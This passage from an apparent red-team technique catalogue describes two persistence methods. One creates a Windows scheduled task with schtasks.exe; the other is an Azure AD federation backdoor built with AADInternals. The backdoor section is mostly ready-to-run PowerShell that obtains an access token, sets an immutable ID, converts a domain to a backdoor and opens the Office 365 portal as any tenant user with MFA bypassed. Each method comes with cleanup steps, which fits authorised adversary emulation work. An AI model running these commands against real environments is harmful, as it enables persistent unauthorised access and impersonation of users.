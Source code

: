 Use built-in schtasks.exe to persist by creating a scheduled task

### Guidance

```
CMD> schtasks /Create /SC DAILY /TN "{{ taskname }}" /TR "{{ command }}" /ST 09:00
```

### Cleanup

```
CMD> schtasks /delete /tn "{{ taskname }}" /f
```

## Azure AD Domain Federation - Backdoor via AADInternals

Use AADInternals to create a backdoor federation domain for persisting access to an environment.

### Prerequisites

- AADInternals installed
  - `Install-Module AADInternals`
- Permissions to modify domain authentication settings
  - and an access token for the user with these permissions, referred to as `$at` in example commands. To retrieve a token, use `$at=Get-AADIntAccessTokenForAADGraph -Credentials (get-credential)` and proceed through the prompts
- A target verified domain in Azure AD
  - To add a domain, Go to Azure AD -> custom domain names -> add -> set the provided DNS records for your domain -> wait for the verification to compelete
- A user with an immutable ID set
  - To set an immutable ID for a user: `Set-AADIntUser -UserPrincipalName {{ upn_or_email }} -ImmutableId "{{ id }}" -AccessToken $at` where the `id` is an arbitrary unnique value

### Guidance

To set the backdoor 

```
PS> ConvertTo-AADIntBackdoor -AccessToken $at -DomainName "{{ domain }}"
```

Optionally, to use the backdoor:

```
Open-AADIntOffice365Portal -ImmutableID {{ id }} -UseBuiltInCertificate -ByPassMFA $true -Issuer {{ issuer }}
```

- `id` is the immutable ID of the target user
- `issuer` is the IssuerUri provided in the output of the previous command 

This works for any user in the tenant, regardless of their domain.

### Cleanup

- Delete the domain
